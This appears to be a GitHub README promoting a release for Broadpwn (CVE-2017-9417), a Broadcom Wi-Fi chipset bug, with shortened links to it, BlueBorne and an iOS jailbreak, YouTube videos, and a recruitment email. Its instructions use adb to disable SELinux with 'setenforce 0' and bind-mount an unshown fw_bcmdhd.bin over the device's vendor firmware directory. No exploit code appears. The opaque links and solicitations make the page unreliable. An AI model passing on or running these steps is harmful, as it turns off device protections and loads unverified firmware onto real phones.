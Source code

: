 
# Broadpwn
- Join or Ask: Linnebergmai@gmail.com 
- Broadpwn: https://goo.gl/xWC4hg | Youtube: https://youtu.be/GTb4Y2Y9shw 
- BlueBorne: https://goo.gl/PSDuwY | Youtube https://youtu.be/FJGGMyg0W38
- Yalu Jailbreak iOS 10.3.1 : https://goo.gl/9cSSPU
- Help PR.

Broadpwn bug (CVE-2017-9417)

  Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  #setenforce 0
  
  #cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  #chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  #mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  #start 

  Join to our team for developing new software.

  If you have any questions, feel free to ask for more information: Linnebergmai@gmail.com
 
  Whatch the instruction: https://youtu.be/GTb4Y2Y9shw
